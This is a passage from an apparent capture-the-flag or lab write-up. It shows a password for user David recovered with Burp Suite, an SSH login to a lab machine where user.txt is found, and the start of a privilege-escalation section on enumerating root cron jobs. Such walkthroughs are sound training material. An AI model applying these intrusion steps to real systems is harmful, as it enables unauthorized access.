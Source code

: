 ![[Pasted image 20250217125846.png]]

*IV. Again in Burp Suite:*

![[Pasted image 20250217130154.png]]

**Key points:** 
- Pass user David: `h4ck3rd4v!d`

### Step 2: Access to user David

Using the pass:

```bash
ssh david@192.168.0.102

david@192.168.0.102's password: 
Linux system 5.10.0-13-amd64 #1 SMP Debian 5.10.106-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Feb 17 10:10:24 2025 from 192.168.0.103
david@system:~$ 
```

**OUTPUT**

```bash
david@system:~$ 
```

```bash
david@system:~$ ls
```

**OUTPUT**

```bash
user.txt
```

## Post Explotation

### Privilege Escalation

To identify potential opportunities for privilege escalation, we can enumerate the background tasks or processes currently running with **root privileges**. By analyzing these tasks, we may discover misconfigurations, vulnerable services, or exploitable scripts that could allow us to escalate our privileges.

#### Step 1: Enumerate cron jobs
